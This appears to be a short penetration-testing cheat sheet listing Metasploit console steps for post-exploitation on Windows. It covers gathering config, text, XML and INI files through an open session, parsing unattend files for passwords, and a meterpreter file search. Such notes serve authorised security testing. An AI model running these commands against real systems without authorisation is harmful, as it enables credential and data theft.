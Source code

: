 # Metasploit

## Post Module

- MSF Windows Gather Generic File Collection Post Module

```
msf > use post/windows/gather/enum_files

msf post(windows/gather/enum_files) > options

Module options (post/windows/gather/enum_files):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   FILE_GLOBS   *.config         yes       The file pattern to search for in a filename
   SEARCH_FROM                   no        Search from a specific location. Ex. C:\
   SESSION                       yes       The session to run this module on


View the full module info with the info, or info -d command.

msf post(windows/gather/enum_files) > set file_globs *.txt or *.xml or *.ini

msf post(windows/gather/enum_files) > set search_from <C:\\path\\to\\directory>

msf post(windows/gather/enum_files) > set session <session_id>

msf post(windows/gather/enum_files) > run
```

## Auxiliary Module

- MSF Parser Windows Unattend Passwords Auxiliary Module

```
msf > use auxiliary/parser/unattend

msf auxiliary(parser/unattend) > options

Module options (auxiliary/parser/unattend):

   Name       Current Setting  Required  Description 
   ----       ---------------  --------  ----------- 
   PATH                        yes       Directory or file to parse. 
   RECURSIVE  false            yes       Recursively check for files

msf auxiliary(parser/unattend) > set path /path/to/file(s)

msf auxiliary(parser/unattend) > set recursive <true | false>

msf auxiliary(parser/unattend) > run
```

## Metepreter API command

`meterpreter > search -d C:\\ -f *.xml -f *.txt -f *.ini`